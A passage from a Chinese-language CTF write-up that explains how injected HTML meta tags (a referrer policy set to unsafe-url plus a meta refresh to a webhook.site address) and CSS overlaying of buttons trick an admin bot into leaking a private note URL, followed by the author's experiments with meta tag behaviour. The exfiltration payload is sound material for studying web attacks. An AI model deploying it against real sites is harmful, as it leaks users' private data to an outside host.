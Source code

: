 ``` js
        //throw (e)
    }

}
```

最後一步我在看的時候就覺得怪怪的，就是去點擊那個 logout button，我就在想為什麼要點那個，賽後才知道那也是關鍵之一。

我在解的時候有想到可能跟 referrer policy 有關，但用了 `<iframe referrerPolicy="unsafe-url"></iframe>` 似乎沒有效果。

解答確實跟這個有關，但是是這樣的：

``` html
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```

用 `<meta>` 來設置 referrer，然後再用 `meta refresh` 設定三秒後把頁面重新導向。

然後再用 CSS 把 logout button 的位置藏到 `last` button 後面，這樣 admin bot 實際上就會點到 `last` button，跳到 note 頁面，接著靠著 referrer policy 就可以 leak 出 URL。

最後這個答案打破了三件我以為的認知：

1. 我以為 meta 要放在 head 裡面才有效
2. 我以為 meta tag 被清掉之後就沒效了
3. 我以為 puppeteer 點按鈕的時候跟畫面無關，而是會直接點到元素

針對這三件事情，我們都可以來做一個小實驗。

第一點我做了一個簡單的網頁：

``` html
<!DOCTYPE html>
<html>

<head>
  <meta charset='utf-8'>
</head>
<body>
  <h1>test</h1>
  <meta name="referrer" content="unsafe-url" />
  <meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; img-src https://*; child-src 'none';">
  <meta http-equiv="refresh" content="3;url=http://example.org" />    

</body>

<body>
```

打開後在 cosnole 看到錯誤：

> The Content Security Policy 'default-src 'self'; img-src https://*; child-src 'none';' was delivered via a <meta> element outside the document's <head>, which is disallowed. The policy has been ignored.
